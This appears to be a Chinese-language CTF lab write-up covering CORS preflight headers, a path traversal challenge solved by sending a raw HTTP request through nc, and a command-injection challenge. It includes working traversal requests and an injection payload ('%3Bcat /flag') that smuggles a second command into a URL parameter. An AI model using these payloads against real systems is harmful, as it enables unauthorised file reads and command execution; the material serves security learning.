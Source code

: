 2. 服务器响应：

   - 服务器需要正确地处理 

     ```
     OPTIONS
     ```

      请求，并返回允许跨域的头信息，例如：

     - `Access-Control-Allow-Origin`: 定义允许跨域的来源（可以是 `*` 表示所有域名）。
     - `Access-Control-Allow-Methods`: 指定允许的 HTTP 方法，如 `GET`, `POST`, `PUT` 等。
     - `Access-Control-Allow-Headers`: 列出允许使用的自定义头。

3. 实际请求：

   - 如果服务器正确响应了预检请求，并且允许跨域，浏览器才会继续发送实际的请求（例如 `GET`, `POST` 等），并带上实际数据。








## Path Traversal 2

`Path Traversal`, 第一开始我是用curl去请求，发现他总是会把我请求的路径给改掉。由于浏览器或者命令行工具（如 curl）会对 URL 进行规范化处理，在实际请求到达 Flask 应用之前，URL 中的路径部分会被自动解析并规范化。比如:
```bash
curl http:/challenge.localhost/flag/../../../../flag --> 它会自动给处理成/flag

hacker@web-security~path-traversal-2:~$ curl http://challenge.localhost/fortunes/../../../flag
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>No /challenge/files/flag from directory /home/hacker</p>

```

所以还是要用echo + nc 的方式发最原始的http报文。这里一定要注意http报文的格式，新的头部字段前是没有空格的，直接用\r\n分割开就行了。

```bash
echo -e """GET fortunes/../../../flag HTTP/1.1\r\n\
Host: challenge.localhost\r\n\r\n\
""" | nc challenge.localhost 80


# echo -e "GET /index.html HTTP/1.1\r\n\
# Host: challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```


## CMDi 1

利用传参构建，
`curl  http://challenge.localhost/?directory=/%3Bcat%20/flag`
